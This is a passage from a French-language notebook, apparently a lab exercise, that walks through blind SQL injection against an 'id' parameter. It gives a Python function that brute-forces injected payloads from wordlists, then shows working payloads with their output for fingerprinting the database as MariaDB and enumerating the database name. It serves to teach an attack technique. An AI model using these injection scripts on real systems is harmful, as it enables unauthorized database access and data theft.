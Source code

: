 
**Fonction qui nous permet de faire du brute force**
```python
def send_request_with_wordlist(path_to_wordlist, beginnig_of_sql_request, end_of_sql_request):
    info_found = []
    wordlist = open(path_to_wordlist, 'r')
    lines = wordlist.readlines()
    for line in lines:
        id_param = beginnig_of_sql_request  + line.strip() + end_of_sql_request
        params = {
            'id': id_param,
            'Submit': 'Submit'
        }
        response = requests.get(url,params=params,cookies=cookies,headers=headers)
        if response.status_code == 200:
            print("[FOUND] = ", line.strip())
            info_found.append(line.strip())
    
    return info_found
```

### 1. Info de la BD

Nous allons chercher quelle base de données nous avons affaire : Mysql, PostgreSQL, Oracle, MariaDB, etc. Pour cela nous allons créer une wordlist de BD SQL les plus utilisées. 
Utilisons la variable **@@version** ou **version()** pour trouver cette info de la BD.


```python
paramID = "' or LOWER(@@version) LIKE '%"
shorlist = "wordlist/infoDB.txt"

info_DB = send_request_with_wordlist(shorlist, paramID, "%' -- -")
info_DB
```

    [FOUND] =  db
    [FOUND] =  maria
    [FOUND] =  mariadb





    ['db', 'maria', 'mariadb']



Nous savons maintenant qu'il s'agit d'une BD mariaDB.

### 2. Nom de la BD

#### 2.1 Cherchons d'abord les lettres qui commposent la base de données qui est interrogée


```python
alphabet = "wordlist/alphabet_num.txt"
sql_start = "' or DATABASE() LIKE  '%"
sql_end = "%' -- -"
letters_in_db_name = []
letters_in_db_name = send_request_with_wordlist(alphabet, sql_start, sql_end)


print("Caractères qui composent le nom de la BD : ", "".join(str(i) for i in letters_in_db_name))
```
